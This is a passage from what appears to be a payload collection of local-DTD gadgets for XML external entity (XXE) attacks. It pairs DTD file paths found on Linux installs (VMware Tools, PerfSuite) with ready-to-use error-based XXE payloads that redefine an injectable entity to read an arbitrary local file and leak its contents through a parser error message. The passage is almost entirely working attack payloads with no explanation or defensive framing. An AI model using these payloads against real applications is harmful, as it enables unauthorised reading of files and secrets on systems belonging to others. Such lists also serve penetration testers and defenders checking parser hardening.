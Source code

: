 **XXE Payload:**

```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///etc/vmware-tools/vgauth/schemas/XMLSchema.dtd">

    <!ENTITY % xs-datatypes '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:**
 - `/usr/share/perfsuite/dtds/pshwpc/hwpcprofilereport-0.2.dtd`
 - `/usr/share/perfsuite/dtds/pshwpc/hwpcprofilereport-0.3.dtd`
 - `/usr/share/perfsuite/dtds/pshwpc/hwpcprofilereport.dtd`
 - `/usr/share/perfsuite/dtds/pshwpc/hwpcreport-0.3.dtd`
 - `/usr/share/perfsuite/dtds/pshwpc/hwpcreport.dtd`

**Injectable entity:** `machineinfo.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/perfsuite/dtds/pshwpc/hwpcprofilereport-0.2.dtd">

    <!ENTITY % machineinfo.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:**
 - `/usr/share/perfsuite/dtds/pshwpc/multihwpcprofilereport-0.2.dtd`
 - `/usr/share/perfsuite/dtds/pshwpc/multihwpcprofilereport-0.3.dtd`
